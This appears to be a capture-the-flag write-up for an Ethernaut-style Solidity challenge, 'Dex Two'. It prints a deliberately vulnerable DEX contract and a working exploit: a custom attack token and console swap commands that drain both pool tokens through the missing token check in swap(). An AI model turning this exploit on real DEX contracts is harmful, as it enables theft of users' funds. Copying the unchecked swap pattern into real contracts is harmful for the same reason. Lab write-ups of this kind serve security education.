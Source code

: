 # Challenge 23

<img src="./images/BigLevel23.svg" alt="23">

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Challenge
---
> This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

  You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

  You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

  Things that might help:

 - How has the swap method been modified?

Solution :  Dex two
---
1. Same as the Dex but we need to drain all the balance of token1 and token2 from the contract.

2. If you take look at the contract you will see there is one `require` statement missing like the ` require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");` (from dex). Means it doesn’t check the token1 and token2 are exchanging. 

Let's Make Token
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";


contract AttackToken is ERC20 {

  constructor( uint initialSupply) ERC20("Attack", "ATK") {
        _mint(msg.sender, initialSupply);
    
  }

}
```

now first initialSupply will be 400 and deploy, next send the 100 tokens to dexTwo contract (instance address), and also allow the Dextwo to exchange between token so approve the tokens `200` with `instance`.

Now DexTwo has `100` for each `token1` and `token2` and player has `300` `token`

```js
attack = "YOUR_ATTACKTOKEN_ADDRESS"
token1 = await contract.token1()
token2 = await contract.token2()
```

then let's drain `token1`
```js
await contract.swap(attack,token1,100)
```

check `token1` drains
```js
(await contract.balanceOf(token1, instance)).toString()
// 0
```

now let's drain `token2`
```js
await contract.swap(attack,token2,200)
```
check `token2` drains
```js
(await contract.balanceOf(token2, instance)).toString()
//0
```

Submit instance and your challenge will be cleared.